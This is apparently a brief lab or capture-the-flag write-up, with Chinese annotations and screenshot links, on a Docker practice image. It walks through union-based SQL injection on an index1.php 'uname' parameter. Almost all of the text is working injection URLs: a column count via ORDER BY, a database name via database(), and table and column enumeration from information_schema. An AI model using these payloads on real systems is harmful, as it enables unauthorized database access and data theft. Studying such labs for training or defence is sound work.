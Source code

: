![image-20240902165027-hcadzsx](assets/image-20240902165027-hcadzsx.png)


名称: dockerproxy.cn/etimeci/sqlmaprceexp

http://113.45.183.x:22388/index1.php?uname=aaa'order by 1,2,3,4,5--+     所以有4个字段

![image-20240902180237-a5lrd3z](assets/image-20240902180237-a5lrd3z.png)

http://113.45.183.x:22388/index1.php?uname=aaa'union select 1,2,3,4--+

![image-20240902180042-xzx8bi8](assets/image-20240902180042-xzx8bi8.png)

http://113.45.183.x:22388/index1.php?uname=aaa'union select 1,2,database(),4--+

![image-20240902180139-mh9q4lp](assets/image-20240902180139-mh9q4lp.png)

http://113.45.183.x:22388/index1.php?uname=aaa'union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database() --+

![image-20240902180739-2tnx2of](assets/image-20240902180739-2tnx2of.png)

http://113.45.183.x:22388/index1.php?uname=aaa'union select 1,2,group_concat(column_name),4 from information_schema.columns where table_schema=database() --+

![image-20240902180850-h937txg](assets/image-20240902180850-h937txg.png)
